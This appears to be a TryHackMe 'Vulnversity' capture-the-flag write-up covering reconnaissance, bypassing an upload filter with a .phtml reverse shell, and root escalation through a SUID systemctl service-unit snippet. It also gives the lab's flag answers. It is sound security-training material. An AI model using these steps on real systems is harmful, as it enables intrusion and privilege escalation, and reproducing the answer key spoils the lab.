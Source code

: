 ![Vulnversity Banner](https://i.imgur.com/JFYfwL8.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Cover.png" alt="Vulnversity Logo">
</p>

# [Vulnversity](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/vulnversity)

This guide contains the answer and steps necessary to get to them for the [Vulnversity](https://tryhackme.com/room/vulnversity) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Locating directories using GoBuster](#locating-directories-using-gobuster)
- [Compromise the webserver](#compromise-the-webserver)
- [Privilege Escalation](#privilege-escalation)

## Reconnaissance

In this task we will be using `nmap` to find out more about our target machine. We can get the answers for all these question with the following command:

```cmd
nmap -sV 10.10.70.180
```

![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Nmap.png)

2. Scan the box, how many ports are open?
   
   Just count the number of services listed on the scan.
   
   ><details><summary>Click for answer</summary>6</details>
   
3. What version of the squid proxy is running on the machine?

   This information is given through the `-sV` argument.

   ><details><summary>Click for answer</summary>3.5.12</details>

4. How many ports will nmap scan if the flag -p-400 was used?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>400</details>

5. Using the nmap flag -n what will it not resolve?

   Using `nmap --help` we can get more information on the various arguments. 

   ><details><summary>Click for answer</summary>DNS</details>

6. What is the most likely operating system this machine is running?

   For this we can look at the information on the various services. 

   ><details><summary>Click for answer</summary>Ubuntu</details>

7. What port is the web server running on?

   This can also be found on the scan results. Look for an Apache/http service.

   ><details><summary>Click for answer</summary>3333</details>
   
## Locating directories using GoBuster

In this task we will be using `dirsearch` or ` gobuster` to find any hidden directories on the webserver.

2. What is the directory that has an upload form page?

   For this we can use both `dirsearch` and `gobuster`, the commands are similar and the results as well.
   
   ```cmd
   dirsearch -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   
   gobuster dir -u http://10.10.70.180:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   ```
   
   ![Dirsearch Results](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Dirsearch.png)
   
   ![Gobuster Results](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Gobuster.png)
   
   After navigating to the results we find here, we can see which directory has an upload form.
   
   ![Website Form](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Form.png)

   ><details><summary>Click for answer</summary>/internal/</details>

## Compromise the webserver

In this task we will exploit the filtering of a file upload form to get a reverse shell.

1. What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

   We can download one of the images we found on the other directory with:
   
   ```cmd
   curl http://10.10.70.180:3333/images/loc.png --output loc.png
   ```
   
   Then make a couple copies with different extensions such as: `.php`, `.html`, `.js`, `.jpg` etc. We can upload them to the webserver to find out which ones are blocked.
   
   ![Form Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Upload.png)

   ><details><summary>Click for answer</summary>.php</details>

3. Run this attack, what extension is allowed?

   We open the form again in our browser and enable FoxyProxy to intercept the traffic with BurpSuite. We upload an example file and send the intercepted request to intruder.
   
   ![Burp Proxy](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Burp_Proxy.png)
   
   Go to Intruder and the positions tab. Here we need to clear all and add a position for the extension as followed.
   
   ![Burp Intruder](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Burp_Intruder.png)
   
   Next, in the payload tab we need to add the extension for Burpsuite to try.
   
   ![Burp Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Burp_Payload.png)
   
   Set the attack mode to sniper and start the attack.
   
   ![Burp Results](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Burp_Intruder_Result.png)
   
   We should be seing one of the extensions to have either a different status or length. Unfortunately, for some reason, it couldn't get it to work. After manually trying, I found `.phtml` to be working.

   ><details><summary>Click for answer</summary>.phtml</details>

5. What is the name of the user who manages the webserver?

   To get into the system we can use a `php-reverse-shell`. These can be found in `/usr/share/webshells/`. We just need to edit the file to contain our machines IP address and a port we want to use.
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Reverse_Shell_Script.png)
   
   After uploading we start a listener on port 1337 with netcat and navigate to `internal/uploads` to access our shell.
   
   ![Netcat](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Netcat.png)
   
   To find any users on the machine we can either enumerate the home directory or look at the `passwd` file.
   
   ```cmd
   ls -lh /home/
   ```
   
   ![Users](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_User.png)

   ><details><summary>Click for answer</summary>bill</details>

6. What is the user flag?

   We can navigate to bill home folder and look for the flag.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Flag.png)

   ><details><summary>Click for answer</summary>8bd7992fbe8a6ad22a63361004cfcedb</details>

## Privilege Escalation

In this task we will escalate our priveleges with SUID exploitation.

1. On the system, search for all SUID files. What file stands out?

   We can look for any binaries with their SUID bit set with:
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_SUID.png)
   
   Checking GTFOBins, we come accross `systemctl` which we can use without `sudo`.
   
   ><details><summary>Click for answer</summary>/bin/systemctl</details>

2. Become root and get the last flag (/root/root.txt)

   Using the commands from GTFOBins we can write a custom code snippet to enter into the shell:
   
   ```cmd
   TF=$(mktemp).service
   echo '[Service]
   Type=oneshot
   ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt"
   [Install]
   WantedBy=multi-user.target' > $TF
   /bin/systemctl link $TF
   /bin/systemctl enable --now $TF
   ```
   
   ![GTFOBins Systemctl](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_GTFOBins.png)
   
   We use the `/tmp/` folder as this is usually always accessible for everyone on the machine.
   
   I didn't have any luck at first, so I tried again after stabalizing our shell on the machine with:
   
   ```cmd
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```
   
   ![Shel Stabalize](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Shell_Stabalize.png)
   
   Trying again did yield a results, but I had to hit `enter` again for the final command to execute. Now we can navigate to the output file and read its contents.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnversity/Vulnversity_Root_Flag.png)

   ><details><summary>Click for answer</summary>a58ff8579f0a9270368d33a9966c7fd5</details>
